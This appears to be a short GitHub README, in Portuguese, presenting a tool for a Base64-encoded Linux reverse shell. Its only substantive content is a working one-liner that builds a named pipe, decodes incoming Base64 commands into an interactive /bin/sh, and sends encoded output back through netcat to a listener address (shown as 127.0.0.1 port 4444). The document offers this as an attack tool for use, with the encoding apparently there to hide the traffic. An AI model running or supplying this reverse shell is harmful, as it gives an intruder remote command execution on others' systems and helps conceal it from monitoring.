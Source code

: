 # Linux Reverse Shell (Encoded)

Esta é uma ferramenta para realização de Shell reverso encodado com Base64

## Linux command

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | while read line; do echo $(echo "$line" | base64 -d) 2>&1; done |/bin/sh -i 2>&1 | base64 |nc 127.0.0.1 4444 >/tmp/f